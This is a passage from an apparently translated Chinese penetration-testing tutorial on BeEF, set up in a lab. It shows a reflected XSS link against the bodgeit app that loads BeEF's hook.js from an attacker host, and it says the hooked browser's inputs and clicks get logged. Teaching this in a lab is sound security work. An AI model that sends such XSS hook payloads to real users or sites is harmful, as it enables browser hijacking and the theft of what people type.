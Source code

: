 1.  现在，浏览到 `http://127.0.0.1:3000/ui/panel`，并使用 `beef` 作为用户名和密码。如果成功，我们就可以继续。

# 如何操作...

BeEF 需要客户端浏览器调用 `hook.js` 文件，这是一个将浏览器钩住并连接到 BeEF 服务器的脚本，我们将使用一个易受 XSS 攻击的应用程序让用户调用此脚本：

1.  假设你是受害者，你收到了一封包含链接 `http://192.168.56.11/bodgeit/search.jsp?q=<script src="http://192.168.56.10:3000/hook.js"></script>` 的邮件，并且点击了该链接。

1.  现在，在 BeEF 面板中，攻击者将看到一个新的在线浏览器：

![](img/60862e74-52d6-4dbf-afa1-2ce01c5eaf0e.png)

1.  如果我们查看浏览器中的日志标签页，可能会看到 BeEF 正在存储用户在浏览器窗口中执行的操作信息，例如输入和点击，如下所示：
